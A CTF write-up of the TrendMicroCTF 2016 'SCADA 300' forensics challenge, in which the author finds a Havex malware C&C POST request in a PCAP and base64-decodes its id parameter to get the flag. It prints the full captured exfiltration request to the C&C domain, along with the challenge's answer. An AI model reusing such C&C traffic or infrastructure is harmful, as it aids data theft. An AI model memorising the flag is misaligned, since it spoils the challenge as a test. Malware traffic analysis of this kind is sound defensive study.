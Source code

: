 Title: TrendMicroCTF 2016 - SCADA 300
Category: writeup
Tags: ctf, writeup
Authors: gmerz
CTF-CTFTIME-EVENT: 340
CTF: TrendMicroCTF
CTF-YEAR: 2016
CTF-CATEGORY: SCADA
CTF-POINTS: 300
CTF-CHAL-NAME: SCADA 300
Summary: SCADA APT's FTW


The description of the challenge was as follows:
```
In this challenge you are presented with a PCAP that 
comes from a network infected by a well known SCADA 
related APT Threat (hint: pay attention to potential C&C)

Identify the relevant packets related to the malware and 
attempt to find the flag in the normal format
```

So first we had to download and unpack the relevant file. 
After fiddling around with wireshark we identified a suspiciously looking HTTP POST request to ```sinfulcelebs.freesexycomics.com```.

Full dump for the record:
```
POST /wp05/wp-admin/includes/tmp/tmp.php?id=VE1DVEZ7SGF2ZXhJc1RoZUZsYWd9 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.36 Safari/525.19
Host: sinfulcelebs.freesexycomics.com
Content-Length: 1528
Cache-Control: no-cachecn�#[81 bytes missing in capture file]QlpoOTFBWSZTWb2+JeAAAAf//////////////3//////3////1/u///+////////
////wAI9tm6d3aJAI2SaNMTTT1MDRMNTamaaQ2gmBMQ0xomnomjBMGoMDJDJgRtT
Q2iGhpp+qYNAmE9AIzTUwBMaTDQ0CeiYyNR6GCT1MEAaTDRMDQ0TTTaaAAaJkyMJ
iYAAAAAmCeiDAmjQ8hNoT0AAAA0AAAA0jDQJg0B6homEegmASeo0aY00mmAmaAJh
PQA0RkwGppk8pkwamj0NNBoGFNHqemiMajGQ0CYahkZMmjaAjah6jQ000YEbTQA1
NMEwaNTANNQynppNGg0NTJgANRgTRmpgTCYTBGIM1P1CYTTDSYAEwyNTJgTBMm0m
EwmJpgmaAACGE2gExGjE9JgAEaYFkHTHyjHPhK4ALKXICaVyFBAFwlJdAKdX/BAL
hUQbMoLHnoowSAKRi//bPPPChtrALfQuIpohlA8kRbBerXdMRNyn7eCNcJUywdQW
BWkSH8c1rADCsoZ12RJZE6AhuTPQR1Txf75YIBLG8wYZOFAI8w2siL94oEAdVvGg
IIQZvHlZzlZ6oW1s1+NiCOP4UUwg/jZqqT7oY4NKIPGx+268xOCE5XknEugQuq94
hY6JmZ+upKYIKMSb+wFGGx/BjQTsEWEMAB/S5EEyNISUtxuUBXfGmD/f5m1pHBuh
NkSLvvctcYum34+YH5EKssmCGkJ/5AhLLI7KIYhctFVjs4/YmxQ4HTQFuC9IQRfu
oavqSXwgoMDtpvbJCQPOA+vIoYGXUaQshOOSGcQElAMsTcnHHuc4lyCm2gyVrXCH
cOliSsItdIfhMz9KKE0upWcJC0iqK3za+Fj8tB8fLzAUOL2vwKdUarEtfF8Sfk0z
KsJldiQikEMMEU6JtcZNNYmyBJZAvMcvsTz+qGves06Qfzu1IaAtlHuR9sUhBQuK
6HW5Rh6K+Dt44F4ecslL38BOLqYAkytmiYkP6Yrmm4pBTbvq1FLeChxuMjAn9qXp
Wkxz+3ot4XI1hzkPFlvtMFw3ARidUvhFKA3Q2c+1pgPhOPIeDRjkHeJHZLDz72iy
tDR7UOHpkWIsb9T63biMEwYdQNd6kmbfByoJ/wYHHDYU1TWx6F3c4tqN9HiJJ6p4
20vdawYDmk2MIy9IrY3IzysppoY4fqGe/sFCooBOBC9wyV0CRokjDGBRMhx+Hk9p
CYujhHcHeuIOmT94MIAkXBVe85xvdNYZkus+awc0L+LY1GAGsnyri0EfQIhEzr8s
bvD0NJv0c5AAA7cWD6HKHg2AL2upZYqibHdkNzxdaEu4Oo8dEbKbBz8apYvdoSMU
7AK4dzWE2iySAGIxTArqn9BFIQPh4P0f27w6B/nfKSREmUP5isQ4FxEpQaOhdi5j
yBwYr2o5
```
A google search brought up a connection of this domain to the Havex Malware. 
It seems that it packs the data it wants to exfiltrate with bzip2 and then sends it as base64 encoded POST data. 
So first thing I thought of was extracting the content body.

While the base64 decoded body indeed identified as bzip2, unpacking was not possible since the bzip2 file was corrupted.
After a lot of failed tries to actually identify something useful in the dumped POST data I took another look at the 
packet and realised that there was another base64 encoded string, right there in the request's id parameter: 
```
POST /wp05/wp-admin/includes/tmp/tmp.php?id=VE1DVEZ7SGF2ZXhJc1RoZUZsYWd9 HTTP/1.1
```
which, base64 decoded gave the correct flag
```
TMCTF{HavexIsTheFlag}
```

Could have spared myself a lot of time if I had seen the parameter right away. :)













